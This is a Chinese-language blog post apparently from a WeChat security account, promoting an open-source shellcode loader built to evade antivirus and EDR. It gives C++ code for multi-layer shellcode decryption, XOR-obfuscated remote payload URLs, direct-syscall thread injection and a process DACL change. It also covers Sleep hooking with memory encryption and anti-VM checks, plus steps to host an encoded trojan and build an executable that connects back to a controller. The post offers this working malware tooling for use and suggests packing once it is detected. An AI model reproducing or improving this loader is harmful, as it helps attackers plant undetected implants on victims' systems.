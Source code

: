 #  内存规避Shellcodeloader

原创 Wangfly  [ SafeTime ](javascript:void\(0\);)

**SafeTime** ![]()

微信号 safetm

功能介绍 分享安全实践经验

____

___发表于_

收录于合集

#对抗 1 个

#内网渗透 2 个

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174856.png)

点击上方蓝字关注我们

  
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174857.png)\

# SysHttpHookSleep

https://github.com/wangfly-me/SysHttpHookSleep

## 代码来源

集合多种方式的ShellcodeLoader，主要代码来自：

https://github.com/mgeeky/ShellcodeFluctuation

https://github.com/TheD1rkMtr/BlockOpenHandle

## 主要功能

 **Shellcode：** 异或xor加密+Base64编码+AES加密+Base64编码+字符串反转。  

 **加载方式：** URL加密+远程加载+Syswhispers上线。  

 **内存规避：** HOOK Sleep函数+内存xor加密+System权限打开句柄。  

 **反虚拟机：** 注册表+文件+进程+内存。

## 原理浅析

Shellcode加密，采取`异或xor加密+Base64编码+AES加密+Base64编码+字符串反转`。

#### 异或xor加密

可改进，动态key生成

    
    
    const char* xx = rest2_decoded.c_str();  
      
    std::vector<uint8_t> sc;  
      
    for (int j = 0; j < rest2_decoded.length(); j++)  
    {  
        sc.push_back(xx[j] ^ XK2 ^ XK1);  
    }

#### 字符反转

    
    
    reverse(rest2_reference.begin(), rest2_reference.end());

AES和Base64，都有写好的，下载下来，直接用即可。https://github.com/kkAyataka/plusaes

#### URL加密

主要是避免静态特征，加密解密程序如下：

    
    
    int key[] = { 1,2,3,4,5,6,7 };  
      
    void encryption(string& c, int key[]) {  
        int len = c.size();  
        for (int i = 0; i < len; i++) {  
            c[i] = c[i] ^ key[i % 7];  
        }  
    }  
    void decode(string& c, int key[]) {  
        int len = c.size();  
        for (int i = 0; i < len; i++) {  
            c[i] = c[i] ^ key[i % 7];  
        }  
    }

#### 远程线程注入

Syswhispers生成远程线程注入函数，代码如下（可改进，Unhook每个敏感函数，去掉EDR钩子）：

    
    
    bool iS(std::vector<uint8_t>& shellcode, HandlePtr& thread)  
    {  
        HANDLE hHostThread = INVALID_HANDLE_VALUE;  
        auto alloc = VirtualAlloc(NULL, shellcode.size() + 1, MEM_COMMIT, PAGE_READWRITE);  
      
        memcpy(alloc, shellcode.data(), shellcode.size());  
        DWORD old;  
        VirtualProtect(alloc, shellcode.size() + 1, Shellcode_Memory_Protection, &old);  
        shellcode.clear();  
        SIZE_T sDataSize = shellcode.size();  
        NtCreateThreadEx(&hHostThread, 0x1FFFFF, NULL, (HANDLE)-1, (LPTHREAD_START_ROUTINE)alloc, NULL, FALSE, NULL, NULL, NULL, NULL);  
        NtWaitForMultipleObjects(1, &hHostThread, WaitAll, FALSE, NULL);  
        NtFreeVirtualMemory((HANDLE)-1, &alloc, &sDataSize, MEM_RELEASE);  
        return 0;  
    }

#### 内存规避

https://www.freebuf.com/articles/system/361161.html

#### System权限打开句柄

    
    
    void Set()   
    {  
        LPCWSTR sddl = L"D:P"  
            L"(D;OICI;GA;;;WD)"    
            L"(A;OICI;GA;;;SY)"    
            L"(A;OICI;GA;;;OW)";  
      
        PSECURITY_DESCRIPTOR securityDescriptor = nullptr;  
      
        if (!ConvertStringSecurityDescriptorToSecurityDescriptorW(sddl, SDDL_REVISION_1, &securityDescriptor, nullptr))   
        {  
            return;  
        }  
      
        if (!SetKernelObjectSecurity(GetCurrentProcess(), DACL_SECURITY_INFORMATION, securityDescriptor))   
        {  
            return;  
        }  
      
        LocalFree(securityDescriptor);  
    }

## 操作步骤

 **加密编码工具在release中下载。**

先生成stagerless的raw木马，按顺序分别使用enc.py、AES_Shellcode.exe、rev.py生成b.txt文件，并将其部署在服务器端。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174858.png)

其次将URL使用URL_XOR.exe进行加密，并分成两段填入str1和str2参数中。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174859.png)

最后生成exe，运行上线。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174900.png)

## 免杀效果

由于在项目中已经投入使用一段时间，可能有些已经不免杀，可以尝试VMP加壳，或者修改代码二次开发，来规避杀软。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174901.png)

  

 **——The  End——**  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174903.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

